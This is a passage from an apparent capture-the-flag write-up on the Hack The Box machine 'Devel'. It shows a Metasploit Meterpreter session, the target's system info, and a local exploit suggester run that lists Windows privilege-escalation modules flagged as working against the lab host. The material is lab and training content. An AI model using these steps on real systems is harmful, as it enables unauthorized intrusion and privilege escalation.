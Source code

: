 We got **_shellz_**

Lets check out what we have
```{r, engine='bash', count_lines}
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

We try and browse to the user directory for our flag and we get **Access Denied**
Looks like we need to escalate privs for the user.txt as well :(


**Priv Esc**


```{r, engine='bash', count_lines}
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
```

Our best bet is to go to the local exploit sugester (best = easier in this case) 

We start by putting the current meterpreter sessoin in the background and invoking the local exploit suggester module
```{r, engine='bash', count_lines}
msf exploit(handler) > use post/multi/recon/local_exploit_suggester 
msf post(local_exploit_suggester) > set SESSION 1
SESSION => 1
```

It has some juicy info for us
```{r, engine='bash', count_lines}
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
